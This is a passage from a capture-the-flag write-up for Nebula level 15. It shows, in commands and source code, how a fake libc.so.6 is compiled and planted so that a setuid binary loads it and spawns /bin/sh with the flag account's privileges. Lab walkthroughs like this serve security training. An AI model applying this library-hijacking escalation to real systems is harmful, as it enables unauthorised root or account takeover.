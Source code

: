 w00t. My `ldd` Error went away :)

```bash
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -Wl,--version-script=version.ld fake_libc.c -o libc.so.6
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: version `GLIBC_2.1.3' not found (required by /var/tmp/flag15/libc.so.6)
```

Another version related error. This time though it was for GLIBC version 2.1.3. I spiraled down another Google tunnel with this one and eventually came across static linking options for the linker. Basically, with `-Bstatic` and `-static-libgcc` we tell the compiler not to link against shared libraries. So, I added these too:

```bash
level15@nebula:/var/tmp/flag15$ gcc -shared -static-libgcc -fPIC -Wl,--version-script=version.ld,-Bstatic fake_libc.c -o libc.so.6
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
Segmentation fault
```

And now we are segfaulting. Great! **Not!** I poked around `gdb` a little and prodded around. Eventually I figured I should check if my `__libc_start_main` function is being called before the crash:

```bash
level15@nebula:/var/tmp/flag15$ cat fake_libc.c
#include<stdio.h>

int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {
    printf("hi mom!\n"); /* Added this line! */
    return 0;
}
level15@nebula:/var/tmp/flag15$ gcc -shared -static-libgcc -fPIC -Wl,--version-script=version.ld,-Bstatic fake_libc.c -o libc.so.6
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
hi mom!
Segmentation fault
```

Yes! :D So even though I am causing `flag15` to crash, I have managed to introduce some code to it. I finally decided to add the `system()` call and recompile my fake libc.

So, to solve level15:

```bash
level15@nebula:/var/tmp/flag15$ cat fake_libc.c
#include<stdio.h>

int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {
    system("/bin/sh");
    return 0;
}
level15@nebula:/var/tmp/flag15$ gcc -shared -static-libgcc -fPIC -Wl,--version-script=version.ld,-Bstatic fake_libc.c -o libc.so.6
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
